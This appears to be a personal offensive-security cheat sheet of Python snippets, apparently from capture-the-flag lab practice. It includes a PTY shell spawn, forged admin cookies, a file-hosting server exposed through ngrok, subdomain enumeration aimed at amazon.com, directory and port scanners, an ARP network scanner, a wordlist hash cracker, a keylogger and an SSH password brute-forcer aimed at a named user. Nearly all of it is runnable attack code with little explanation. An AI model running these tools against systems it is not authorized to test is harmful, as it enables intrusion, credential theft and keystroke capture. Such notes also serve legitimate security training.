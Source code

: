 # Libraries
### Requests
```python
import requests
response = requests.get(url)
print(response.text)
print(response.status_code)
print(response.cookies)
```

```python
resp = requests.post(url, cookies={'admin':'value'})
```
### Os
```python
import os
os.system("ls")
```
### Pty
```python
# Open a shell prompt
import pty
pty.spawn("/bin/bash")
```
### Hashlib
```python
hash = hashlib.md5("password".encode()).hexdigest()
hash = hashlib.sha256("password".encode()).hexdigest()
```
### Socket
```python
import socket
import time

# Open the communication
s = socket.socket()
s.connect(('target', port))
time.sleep(1)

counter = 0
while True:
    time.sleep(0.2)
    output = s.recv(2048).decode()
    print(output)
    if "What do you want to eat ?" in output : 
	    ret = "Some chicken"
	    s.send(ret.encode()+b"\n")
```
### Scapy
### Sys
### Paramiko 
Paramiko is an SSHv2 implementation

# WebServer

## On prem
```bash
python -m http.server 9000
```

***It may be necessary to disable firewalls :*** 
```bash
sudo ufw allow from 10.10.227.247 proto tcp to any port 9000
```

## On remote machine : 

```bash
wget http://IP/file.name
```

We can forward the local port with ngrok to access it over all the internet.  
(it equires another terminal)

```bash
ngrok http 9000
```

```bash
wget <full ngrok given https address>
```

Ngrok addresses look like : https://4348-2a01-e0a-6e-dd60-4b76-ce7b-d8b-d846.eu.ngrok.io

# Basics

##### Convert to .exe
**Tools** : 
- Py2exe
- 

### Subdomain enumeration 
```python
import requests

def main(wordlist, domain):
	with open(wordlist) as w :
		content = w.read()
	paths = content.split("\n")
	for line in paths :
		uri = f"http://{line}.{domain}"
		try :
			resp = requests.get(uri)
			print(f"{resp.status_code} : {uri}")
		except :
			pass

if __name__ == '__main__' :
	wordlist = "./wordlist.txt"
	domain = 'amazon.com'
	main(wordlist,domain)
```

### Directory enumeration
```python
import requests

def main(wordlist, url):
	with open(wordlist) as w :
		content = w.read()
	paths = content.split("\n")
	for line in paths :
		uri = f"{url}{line}.html"
		resp = requests.get(uri)
		if (resp.status_code == 200 ) :
			print(f"{resp.status_code} : {uri}")
	
if __name__ == '__main__' :
	wordlist = "./wordlist.txt"
	url = 'http://10.10.168.28/'
	main(wordlist,url)
```

### Network scanner

```python
 # Using ARP requests
from scapy.all import *

interface = "wlan0"
ip_range = "192.168.1.0/24"
broadcastMac = "ff:ff:ff:ff:ff:ff"

packet = Ether(dst=broadcastMac)/ARP(pdst = ip_range)

ans, unans = srp(packet, timeout =2, iface=interface, inter=0.1)

for send,receive in ans:
	print (receive.sprintf(r"%Ether.src% - %ARP.psrc%"))
```

### Port scanner
```python
import socket

def main(target):
	ports = range(1,65535)
	open_ports = []
	for port in ports :
		print(f"{port} : yet, open ports are : {open_ports}")
		try :
			sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
			sock.settimeout(0.5)
			resp = sock.connect_ex((target,port))
			if resp == 0 :
				open_ports.append(port)
		except :
			pass
		sock.close()
  
if __name__ == '__main__' :
	target = "10.10.168.28"
	main(target)
```

### Hash cracker

```python
import hashlib

def main(hash,wordlist,format) :
	with open(wordlist) as w :
		passwds = w.read()
	passwds = passwds.split("\n")
	for password in passwds :
		if format == 'SHA256' :
			tmp_hash = hashlib.sha256(password.encode()).hexdigest()
			if tmp_hash == hash :
				print(f"hash cracked, password found : {password}")
				exit()
		elif format == 'MD5' :
			tmp_hash = hashlib.md5(password.encode()).hexdigest()
			if tmp_hash == hash :
				print(f"hash cracked, password found : {password}")
				exit()
	print("Hash not cracked")
  
if __name__ == '__main__' :
	hash = 'cd13b6a6af66fb774faa589a9d18f906'
	format = 'MD5'
	wordlist = "./wordlist2.txt"
	main(hash,wordlist,format)
```

### Keylogger

```python
import keyboard
keys = keyboard.record(until ='ENTER')
# for key in keys :
#	  print(key)
keyboard.play(keys)
```

### SSH Bruteforcer

```python
import paramiko

def main(target,port,username, wordlist) :
	ssh = paramiko.SSHClient()
	ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
	with open(wordlist) as w :
		content = w.read()
	passwords = content.split("\n")
	for password in passwords :
		try :
			ssh.connect(target,port=port,username=username,password=password)
			print(f"Password found for user {username} : {password}")
			exit()
		except :
			print(f"Auth failed with {username}:{password}")
			pass
		ssh.close()
	print(f"No password found for user {username}")

if __name__ == '__main__' :
	target = "10.10.168.28"
	port = 22
	username = "tiffany"
	wordlist = "./wordlist2.txt"
	main(target,port,username, wordlist)
```